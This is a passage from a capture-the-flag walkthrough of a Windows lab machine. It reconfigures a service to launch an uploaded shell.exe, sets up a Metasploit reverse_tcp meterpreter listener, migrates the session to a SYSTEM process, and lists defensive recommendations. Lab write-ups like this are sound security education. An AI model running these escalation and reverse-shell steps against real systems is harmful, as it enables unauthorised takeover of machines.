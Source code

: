 ```bash
upload shell.exe
```

Modify service to run payload:

```bash
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
sc.exe stop vss
sc.exe start vss
```

Set up Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
run
```

After receiving the session, migrate to a SYSTEM process:

```meterpreter
ps
migrate <PID>
```

---
# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. **Port Scanning** → Identified SMB, HTTP, LDAP, and WinRM.  
2. **Web Enumeration** → Found printer panel with LDAP settings.  
3. **Credential Capture** → Used rogue LDAP server to obtain `svc-printer` credentials.  
4. **WinRM Access** → Logged in with captured credentials.  
5. **Privilege Escalation** → Abused Server Operators group to run arbitrary binary as SYSTEM.  
6. **Alternative** → Meterpreter payload for more stable access.

---

## Defensive Recommendations

- Restrict printer management interfaces to trusted networks.  
- Remove stored credentials from device configurations.  
- Limit membership of Server Operators group.  
- Monitor service configuration changes.  
- Restrict outbound LDAP traffic to trusted hosts.
